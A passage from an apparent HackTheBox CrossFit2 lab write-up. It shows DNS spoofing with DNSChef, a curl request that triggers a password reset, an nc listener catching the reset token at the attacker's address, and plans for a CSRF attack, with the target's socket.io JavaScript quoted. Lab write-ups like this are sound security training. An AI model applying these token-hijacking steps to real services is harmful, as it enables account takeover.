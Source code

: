 And sending a request:

```bash
❯ curl -d "email=david.palmer@crossfit.htb" --resolve not-employees.crossfit.htb:80:10.10.10.232 -X POST http://not-employees.crossfit.htb/password-reset.php

Only local hosts allowed.
```

This because the fakeip should be 127.0.0.1 instead of our public ip.

Changing that on DNSChef and sending other request we get a hit.

```bash
Reset link sent, please check your email.
```

But, after getting a response:

```bash
❯ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.232] 39254
GET /password-reset.php?token=34c85c7402d19590115c15a1af676187f3d25936f74fc69ba62e8c1a3b0b9a7313987ab05c93762f7b6277be0741cb63822d30d69c01eec1f12e755c36f42e17 HTTP/1.1
Host: not-employees.crossfit.htb
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://crossfit-club.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

After clicking on this working token, we get a message that says that `We are sorry, but password reset has been temporarily disabled`. Damn.

So, if we watch closely the request, the Referrer is [http://crossfit-club.htb/](http://crossfit-club.htb/), which means that someone there is clicking on the password reset links, opening a door for a CSRF attack.

---

## Going back to crossfit-club.htb

With not a lot to do more with the reset password, I decided to take another look at the Referrer page.

We previously checked the js file, but it’s probably worth to take another look.

```bash
(xe = Ce.a.connect("http://crossfit-club.htb", { transports: ["polling"] })),
    window.addEventListener("beforeunload", function (t) {
        xe.emit("remove_user", { uid: e.currentUserId });
    }),
    xe.on("disconnect", (e) => {
        this.$router.replace("/login");
    }),
    xe.emit("user_join", { username: localStorage.getItem("user") }),
    xe.on("participants", (e) => {
        e && e.length && ((this.rooms[0].users = e), this.renderUsers());
    }),
    xe.on("new_user", (e) => {
        e.username === localStorage.getItem("user") && ((this.currentUserId = e._id), console.log(this.currentUserId));
    }),
    xe.on("recv_global", (e) => {
        this.addMessage(e);
```
